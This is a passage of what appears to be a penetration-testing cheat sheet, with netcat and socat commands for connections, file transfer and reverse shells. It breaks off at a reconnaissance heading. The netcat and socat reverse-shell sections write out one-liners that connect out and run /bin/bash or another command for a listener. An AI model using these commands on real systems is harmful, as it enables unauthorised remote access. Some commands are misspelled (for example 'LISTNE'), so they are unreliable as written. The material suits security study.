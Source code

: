 clinet side:

```
$nc -n [serverIP] [serve rport]
```

**reverse shell**

server side:

```
nc -lp [port]
```
clinet side:

```
nc -n *serverIP* *serverPort* -e *full path of command to be executed*
```
## socat

socat can be used for bidirectnal communication between sender and reciver

Server side:
```
$ socat - tcp4-LISTEN:[listning port number]
```
Client side:
```
$ socat - tcp4:[server ip address]:[server listning port number]
```
### socat file transfare:
Sender side:
```
$ socat tcp4-LISTEN:[listning port number],fork file:[the file to be send]
```
Reciever side:
```
$ socat tcp4:[sender ip address]:[sender port] file:[the file name to be saved],create
```

### socat reverse shell

Listner side:
```
socat -d tcp4-LISTNE:[listning port number] STDOUT
```
-d for verbos mode
STDOUT to direct the output to the Standard Output

Server side:
```
socat tcp4:[listnet ip address]:[listner port] EXEC:[command path]
```
command path could be /bin/bash

# Reconnaissance:
